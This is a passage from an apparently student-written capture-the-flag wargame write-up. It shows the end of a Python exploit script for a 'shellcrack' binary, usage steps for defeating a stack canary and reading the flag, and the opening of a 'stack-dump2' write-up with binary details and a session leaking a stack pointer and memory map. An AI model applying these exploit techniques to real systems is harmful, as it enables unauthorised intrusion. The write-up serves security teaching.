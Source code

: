 ``` 
			print("==============="+"FIN"+"===============")
			
			io.interactive()
			stage = stage + 1
		else:
			print("done. Awesome!")
			fin = 1

if __name__ == '__main__':
	main()
```

Usage:
1. place in the same dir as shellcrack (for context)
2. run script. Because canary is required to have: no magic strings + no null bytes + no "!"'s chars, It will work with the ```((253/256)^9)*100%~=90%``` chance if run once (man I love maths)
3. Enjoy having hacked into, by catting the flag. So overall it is
```
python2 5001_shellcrack.py
cat /flag
```

stack-dump2
=======================
Flag: 2hard4me

General overview of problems faced 
------------------------------------- 
Had to hack the program 

## 1 file

```
./stack-dump2: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5318c4c46af9f27b0acc9cfdeb09664c4514de8a, not stripped
```

## 2 runtime

```z5214048@piano10:~/COMP6447/Wargames$ ./stack-dump2
ERROR: ld.so: object 'libgtk3-nocsd.so.0' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.
Lets try a real stack canary, like the ones GCC uses
But this time, lets enable ALL protections and make the stack non-executable!
To make things easier, here's a useful stack pointer 0xff965c97
a) input data
b) dump memory
c) print memory map
d) quit

c
ff947000-ff968000 rw-p 00000000 00:00 0                                  [stack]
```
